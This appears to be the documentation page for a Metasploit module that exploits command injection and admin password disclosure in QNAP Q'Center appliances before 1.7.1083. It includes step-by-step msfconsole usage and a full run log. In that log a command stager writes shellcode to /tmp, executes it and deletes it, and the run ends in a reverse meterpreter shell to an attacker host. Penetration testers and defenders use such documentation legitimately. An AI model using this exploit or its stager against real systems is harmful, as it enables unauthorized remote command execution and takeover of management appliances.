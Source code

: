 ## Description

  This module exploits a command injection vulnerability in the
  `change_passwd` API method within the web interface of QNAP Q'Center
  virtual appliance versions prior to 1.7.1083.

  The vulnerability allows the `admin` privileged user account to
  execute arbitrary commands as the `admin` operating system user.

  Valid credentials for the `admin` user account are required, however,
  this module also exploits a separate password disclosure issue which
  allows any authenticated user to view the password set for the `admin`
  user during first install.


## Vulnerable Application
 
  [QNAP Q'Center](https://www.qnap.com/solution/qcenter/index.php) is a central
  management platform that enables you to consolidate the management of multiple
  QNAP NAS devices.

  This module has been tested successfully on QNAP Q'Center appliance
  version 1.6.1075.


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/linux/http/qnap_qcenter_change_passwd_exec`
  3. `set USERNAME <USERNAME>` (default: `admin`)
  4. `set PASSOWRD <PASSWORD>` (default: `admin`)
  5. `run`
  6. You should get a session


## Options

  **USERNAME**

  Username for the application. (default: `admin`)

  **PASSWORD**

  Password for the application. (default: `admin`)


## Scenarios

  ```
  msf5 > use exploit/linux/http/qnap_qcenter_change_passwd_exec 
  msf5 exploit(linux/http/qnap_qcenter_change_passwd_exec) > set rhosts 10.1.1.112
  rhosts => 10.1.1.112
  msf5 exploit(linux/http/qnap_qcenter_change_passwd_exec) > set verbose true
  verbose => true
  msf5 exploit(linux/http/qnap_qcenter_change_passwd_exec) > check
  
  [*] Target is QNAP Q'Center appliance version 1.6.1075
  [*] 10.1.1.112:443 The target appears to be vulnerable.
  msf5 exploit(linux/http/qnap_qcenter_change_passwd_exec) > run
  
  [*] Started reverse TCP handler on 10.1.1.197:4444 
  [*] Target is QNAP Q'Center appliance version 1.6.1075
  [+] Authenticated as user 'admin' successfully
  [*] Sending payload ...
  [*] Generated command stager: ["printf '\\177\\105\\114\\106\\1\\1\\1\\0\\0\\0\\0\\0\\0\\0\\0\\0\\2\\0\\3\\0\\1\\0\\0\\0\\124\\200\\4\\10\\64\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\64\\0\\40\\0\\1\\0\\0\\0\\0\\0\\0\\0\\1\\0\\0\\0\\0\\0\\0\\0\\0\\200\\4\\10\\0\\200\\4\\10\\317\\0\\0\\0\\112\\1\\0\\0\\7\\0\\0\\0\\0\\20\\0\\0\\152\\12\\136\\61\\333\\367\\343\\123\\103\\123\\152\\2\\260\\146\\211\\341\\315\\200\\227\\133\\150\\12\\1\\1\\305\\150\\2\\0\\21\\134\\211\\341\\152\\146\\130\\120\\121\\127\\211\\341\\103\\315\\200\\205\\300\\171\\31\\116\\164\\75\\150\\242\\0\\0\\0\\130\\152\\0\\152\\5\\211\\343\\61\\311\\315\\200\\205\\300\\171\\275\\353\\47\\262\\7\\271\\0\\20\\0\\0\\211\\343\\301\\353\\14\\301\\343\\14\\260\\175\\315\\200\\205\\300\\170\\20\\133\\211\\341\\231\\266\\14\\260\\3\\315\\200\\205\\300\\170\\2\\377\\341\\270\\1\\0\\0\\0\\273\\1\\0\\0\\0\\315\\200'>>/tmp/ivFxR ; chmod +x /tmp/ivFxR ; /tmp/ivFxR ; rm -f /tmp/ivFxR"]
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (861480 bytes) to 10.1.1.112
  [*] Command Stager progress - 100.00% done (701/701 bytes)
  
  meterpreter > getuid
  Server username: uid=1001, gid=1001, euid=1001, egid=1001
  meterpreter > sysinfo
  Computer     : 10.1.1.112
  OS           : Ubuntu 14.04 (Linux 3.13.0-32-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

